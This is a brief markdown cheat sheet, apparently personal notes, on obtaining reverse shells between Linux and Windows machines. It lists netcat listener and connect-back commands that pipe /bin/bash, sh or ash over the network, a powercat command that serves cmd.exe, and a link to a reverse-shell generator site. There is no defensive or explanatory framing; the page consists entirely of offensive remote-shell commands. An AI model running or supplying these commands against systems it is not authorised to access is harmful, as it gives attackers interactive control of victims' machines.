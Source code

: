 ### Linux to Linux
* nc -lvvp 9999  监听主机
* nc 127.0.0.1 9999 -e /bin/bash | -e /bin/sh | -e /bin/ash
* #cd /bin | grep sh

### Websites for getting shell
https://www.revshells.com/

### Windows to Linux
* powercat -l -p 1080 -e cmd.exe -v (need to download from own server)
* nc ip port -vv
